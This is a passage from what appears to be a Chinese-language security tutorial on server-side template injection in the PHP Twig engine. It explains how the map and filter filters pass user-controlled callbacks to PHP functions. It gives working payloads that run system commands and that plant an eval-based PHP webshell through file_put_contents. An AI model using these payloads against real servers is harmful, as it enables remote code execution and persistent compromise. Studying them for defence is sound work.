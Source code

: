 关键部分

```php
$r[$k] = $arrow($v, $k);    
```

这里如果说，$arrow我们的用户可控，那么传入的 `$arrow``的值就会直接被当成函数执行，后面的$array就会充当他的参数($v和$k分别作为$array的键和值)。

所以我们下一个目标就是找到具有两个参数并且可以进行命令执行的函数，来进行rce，或者可以执行文件的函数来执行我们上传的木马。

```php
system ( string $command [, int &$return_var ] ) : string
passthru ( string $command [, int &$return_var ] )
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] ) : int
```

所以我们构造payload就可以进行rce了

```php
{{["ls"]|map("system")}}
```

```php
{{{"<?php @eval($_POST['attack']);?>":"文件地址"}|map("file_put_contents")}}
```

##### filer过滤器

作用：这个 `filter` 过滤器使用箭头函数来过滤序列或映射中的元素。箭头函数用于接收序列或映射的值

```php
{% set lists = [34, 36, 38, 40, 42] %}
{{ lists|filter(v => v > 38)|join(', ') }}

// Output: 40, 42
```

Twig将上述的语言编译成

```php
<?php echo implode(', ', array_filter($context["lists"], function ($__value__) { return ($__value__ > 38); })); ?>
```

我们可以发现调用了array\_filter（）的危险函数，下面我们来详细阅读关于array\_filter函数的源码

filer过滤器源码：

```php
/**
 * Filters an array or iterator using a callback function.
 *
 * @param array|\Traversable $array The array or iterator to filter
 * @param callable $arrow The callback function to use as a filter
 *
 * @return array|CallbackFilterIterator The filtered array or iterator
 */
function twig_array_filter($array, $arrow)
{
    if (\is_array($array)) {
        return array_filter($array, $arrow, \ARRAY_FILTER_USE_BOTH);    
    }
    return new \CallbackFilterIterator(new \IteratorIterator($array), $arrow);
}
```
